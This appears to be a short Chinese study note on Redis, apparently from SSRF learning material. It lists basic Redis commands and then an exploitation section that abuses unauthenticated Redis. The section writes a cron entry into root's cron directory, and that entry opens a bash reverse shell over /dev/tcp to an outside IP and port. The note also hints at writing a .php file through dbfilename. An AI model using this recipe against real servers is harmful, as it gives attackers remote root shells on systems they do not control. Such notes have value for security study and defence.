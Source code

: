 ![image-20210802210813635](0x007ssrf/image-20210802210813635.png)

#### redis的使用

```redis
set key value  #设置键值

get key   #获取键的值

config  #配置

keys *   #查看所有键

save #保存

config set dir /    #设置保存路径

config set dbfilename xxx.php #保存文件
```

crontab -e 设置定时任务

/cron/root     root权限

#### 漏洞利用

```redis
#未授权访问redis反弹shell的姿势
config set dir /root/spoo/cron/
#设置文件保存路径
config set dbfilename root
#设置文件保存名
set key "\n\n\n\*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.21.107/9999 0>&1\n\n\n"
#设置键值对
save
#保存倒文件
```

